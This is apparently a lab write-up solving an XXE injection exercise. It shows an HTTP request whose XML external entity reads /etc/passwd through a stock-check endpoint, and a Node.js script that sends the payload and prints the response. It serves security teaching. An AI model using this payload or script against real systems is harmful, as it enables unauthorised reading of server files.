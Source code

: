 # 1 - XXE To Retrieve Files

### Notes

The stock checker feature uses XML to query stock levels by product id and store id. It is vulnerable to XXE injection.

We can define our own external entity by adding a DOCTYPE element. Our entity will reference the `/etc/passwd` filepath for its definition.

```http
POST /product/stock HTTP/1.1

...

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>2</storeId>
</stockCheck>
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  /**
   * <?xml version="1.0" encoding="UTF-8"?>
   * <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
   * <stockCheck>
   *   <productId>&xxe;</productId>
   *   <storeId>2</storeId>
   * </stockCheck>
   */
  const xxe = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>'

  try {
    await axios.post(`${labUrl}/product/stock`, xxe, {
      headers: { 'Content-Type': 'text/xml' }
    })
  } catch (error) {
    console.log(error.response.data)
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
